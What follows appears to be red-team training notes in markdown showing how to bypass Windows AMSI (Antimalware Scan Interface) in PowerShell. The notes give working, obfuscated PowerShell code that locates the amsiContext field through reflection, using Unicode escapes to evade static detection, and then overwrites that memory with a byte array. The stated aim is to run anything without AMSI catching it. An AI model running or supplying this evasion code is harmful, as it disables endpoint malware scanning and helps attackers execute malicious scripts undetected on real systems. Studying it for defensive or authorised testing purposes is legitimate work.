 
## AMSI Bypass in Action	
- AMSI is not a global patch, its patched for the current process only. 
- On a red team leveraging C2 framework, as some tasks might spawn a new process > Detected and Burned if we dont patch AMSI for the newly spawned process
## Over ride AMSI 
- In order to override the `amsiContext` we need to find it
- Identify the memory address of `amsiContext`
- Remember, AMSI is being enforced through injecting "amsi.dll" in processes that are being spawned.

This means that all the functionality of AMSI is available in that process's address space. It is here that we will already encounter our first hurdle: the “classic” approach to get this location is identified as malicious by AMSI

## Locate amsiContext
• Static analysis is the likely mechanism
• Test this hypothesis
• Use Unicode characters using built-in PowerShell functionality
```
[Ref].Assembly.GetType('System.Management.Automation.'+[regex]::Unescape('\u
0041')+'msiUtils').GetField("ams"+[regex]::Unescape('\u0069')+"Context",'Non
Public,Static').GetValue($null)
```

## AMSI under the Hood
• Now that we have the memory location
	We can create an arbitrary byte array
	Place it where amsiContext code should be
• First look at what should be there in a debugger

## Creating the AMSI Bypass
Let's create our bypass:
1. First, we are going to create a new byte array that contains the sentence "sec565 rules!!!" in hexadecimal representation
2. We will use the Count function to dynamically compute the size of the array
3. Finally, we will copy the byte array to the amsiContext location, overriding what is currently there

## AMSI Bypass Code
- We create the byte array and will find the length for our call to copy later on.
- Once we get the memory address, we print it to standard out.
- Finally, we copy our byte array to where amsiContext is in memory.
```powershell
# create the byte array
$sec565 = [Byte[]]
(0x73,0x65,0x63,0x35,0x36,0x35,0x20,0x72,0x75,0x6c,0x65,0x73,0x21,0x21,0x21)
# calculate the length of the array dynamically
$length = $sec565.Count
# get the memory location of amsiContext
[IntPtr]$ptr = [Ref].Assembly.GetType('System.Management.Automation.'+[regex
]::Unescape('\u0041')+'msiUtils')
.GetField("ams"+[regex]::Unescape('\u0069')+"Context",'NonPublic,Static').Ge
tValue($null)
# echo it, so we can inspect it in a debugger if we want
echo $ptr
# copy the array to the memory location
[System.Runtime.InteropServices.Marshal]::Copy($sec565,0,$ptr,$length)
```

## AMSI Bypass in Action
If we now restart PowerShell and apply the patch and attach WinDbg again, we will see our "sec565 rules!!!" sentence where 'AMSI' used to be in the amsiContext file

By replacing the AMSI string with our custom string, we effectively broke AMSI's functionality, which allows us to do whatever we want without having to worry about AMSI.